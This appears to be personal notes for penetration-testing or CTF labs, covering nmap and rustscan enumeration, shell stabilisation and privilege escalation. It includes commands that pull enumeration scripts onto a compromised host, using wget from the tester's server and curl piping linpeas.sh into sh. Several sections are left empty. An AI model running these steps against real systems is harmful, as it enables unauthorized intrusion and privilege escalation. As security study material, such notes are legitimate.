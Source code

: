 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP`.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
0. Stabalize shell `python3 -c 'import pty; pty.spawn("/bin/bash")'` `export TERM=xterm-256color` \
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh \
3.Host a python server `python3 -m http.server 8080` to transfer the linEum.sh\
3.5 
4.From the reverse shell, `wget http://$myIP:8080/linEum.sh .` to recieve linEum.sh if we get permission denied  `cd /tmp` \
5.Give access. `chmod +x linEum.sh` and `./linEum -t` \
6. If file transfer premission is denied, simply `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script.

 
